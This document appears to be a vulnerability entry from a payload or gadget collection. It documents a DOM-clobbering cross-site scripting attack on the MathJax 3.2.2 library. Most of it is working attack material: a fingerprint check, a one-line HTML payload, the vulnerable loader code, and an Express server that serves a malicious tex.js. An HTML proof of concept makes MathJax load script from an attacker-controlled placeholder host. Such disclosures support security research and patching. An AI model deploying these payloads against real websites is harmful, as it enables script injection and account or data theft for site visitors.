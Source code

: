 ## MathJax

### Meta

+ Library: MathJax
+ Stars: 10.1K
+ Version: 3.2.2
+ Fingerprint: `MathJax.version == "3.2.2"`
+ Payload: ```<img name="currentScript" src="https://xxx.xxxx.xxx"></img> $$\require{tex}$$```
+ Impact: XSS
+ CVE: N/A
+ Foundby: TheHulk


### Library

URL: 
+ `https://cdn.jsdelivr.net/npm/mathjax@3.2.2/es5/tex-mml-chtml.js`
+ `https://cdnjs.cloudflare.com/ajax/libs/mathjax/3.2.2/es5/tex-mml-chtml.js`

### Vulnerable Code Snippet

```javascript
t.getRoot = function() {
    var t = "//../../es5";
    if ("undefined" != typeof document) {
        var e = document.currentScript || document.getElementById("MathJax-script");
        e && (t = e.src.replace(/\/[^\/]*$/, ""))
    }
    return t
}
```
```javascript
prefix: function(t) {
    for (var r; (r = t.name.match(/^\[([^\]]*)\]/)) && e.CONFIG.paths.hasOwnProperty(r[1]); )
        t.name = e.CONFIG.paths[r[1]] + t.name.substr(r[0].length);
    return !0
}
```

## PoC

Note that some MathJax instances may be configured differently. If the image loads before MathJax is started, then `MathJax.config.loader.paths.mathjax` should be clobbered. Then, check `MathJax.config.loader.paths` or `MathJax.config.loader.source` to see what dependencies can be loaded in.

Please note that for the following proof of concept, you will need to replace `xxx.xxx.xxx` with your own server address.
```
const express = require('express');
const path = require('path');

const app = express();
const port = 3000; 

app.get('/input/tex/extensions/tex.js', (req, res) => {
  const filePath = path.join(__dirname, 'poc', 'tex.js');
  res.sendFile(filePath);
});

// Start the server
app.listen(port, () => {
  console.log(`Server is running at http://localhost:${port}`);
});
```

### PoC #1
```html
<img name="currentScript" src="https://xxx.xxx.xxx:3000"></img>

<script id="MathJax-script" async src="https://cdn.jsdelivr.net/npm/mathjax@3/es5/tex-mml-chtml.js"></script>

$$\require{tex}$$
```

